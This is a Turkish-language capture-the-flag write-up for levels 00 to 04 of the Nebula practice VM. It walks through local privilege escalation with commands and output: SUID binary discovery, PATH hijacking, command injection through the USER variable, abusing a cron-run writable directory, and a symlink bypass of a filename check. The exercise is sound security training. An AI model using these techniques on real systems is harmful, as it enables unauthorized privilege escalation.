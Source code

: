 ```yaml
---
layout: post
title: "Nebula Write Up-1"
date: 2018-02-26
excerpt: "[Level 00-Level 04]"
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

### Level 03
/home/flag03 dizininde birtakım dosyaların var olduğu ve her iki dakikada bir çağırılan bir crontab bulunduğu bilgisi verilmiş.Leveli tamamlayabilmek için flag03 kullanıcısı ile getflag dosyasının çalıştırılması gerektiğini biliyoruz.
{% raw %}
    level03@nebula:/home/flag03$ file *
    writable.d: directory
    writable.sh: POSIX shell script text executable
    level03@nebula:/home/flag03$ cat writable.sh
    #!/bin/bash
     
    for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5 ; bash -x "$i")
        rm -f "$i"
    done
{% endraw %}
Script özetle, writable.d dizininde bulunan bash script dosyalarını çalıştırıp ardından siliyor.
> `ulimit` komutu, sistem kaynaklarının hangi ölçülerde kullanıldığının istatistiğini verir ve bunları sınırlamayı sağlar.
-t parametresi ile de kaynağın, her bir process tarafından kullanılabileceği saniye sayısı belirtilmiş.

Cronun hangi kullanıcı için yazıldığını öğrenmeye çalışıyoruz.
{% raw %}
     level03@nebula:/home/flag03$ crontab -l
     no crontab for level03
     level03@nebula:/home/flag03$ crontab -u flag03 
     must be privileged to use -u
{% endraw %}
Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yazıyoruz. Cron çalıştıktan sonra  /tmp dizininde oluşan dosyanın sahibini kontrol ediyoruz. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "touch /tmp/test" > test.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls -l
     -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
{% endraw %}
Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls
     output test
     level03@nebula:/tmp$ cat output
     You have successfully executed getflag on a target account
{% endraw %}
### Level 04
/home/flag04 dizininde kaynak kodu aşağıdaki gibi olan bir c programı ve okumamız gereken token dosyası bulunuyor. 
{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
{% endraw %}
{% endhighlight %}
Programı daha iyi yorumlayabilmek adına bazı noktalara değinelim.
> Main çalıştırılan ilk fonksiyondur. Bu fonksiyona verilecek parametreler program çalıştırılmadan önce dışarıdan gönderilir.
`int argc` toplam parametre sayısını tutar.
`char **argv` string değişkenlerini tutar.argv[0], programın adıdır.
"./flag04 token" örneğinde argc değişkeninin değeri 2, argv[0] flag04 , argv[1] token olur.

> Extra olarak; `char` değişken türü bir karakter tutar.`char *` ard arda bulunan karakterlerin başlangıç adresini işaret eder, yani bir stringi. `(char *)*` ise, ard arda bulunan stringlerin başlangıç adresini işaret eder.Yani bir string dizisini. 

Açıklama da bahsedilen token dosyasının okunmasının engellenmesi ikinci if koşulu ile sağlanmış. strstr fonksiyonu ile "token" stringi verdiğimiz parametre içerisinde aranıyor. Eğer ki bulunursa, dönüş değeri bulunan yerin adresi oluyor. Aksi taktirde fonksiyon NULL döndürüyor. 

Bypass etmemiz gereken kısım burası, dosyayı farklı bir şekilde adlandırmamız gerekiyor. Dosya üzerinde izinlerimizin kısıtlı olması sebebiyle cp,mv komutlarını kullanamıyoruz.Bunun yerine soft link yaratıyoruz.
{% raw %}
     level04@nebula:/home/flag04$ ln -s token /tmp/getflag
     level04@nebula:/home/flag04$ ./flag04 /tmp/getflag
     06508b5e-8909-4f38-b630-fdb148a848a2
{% endraw %}

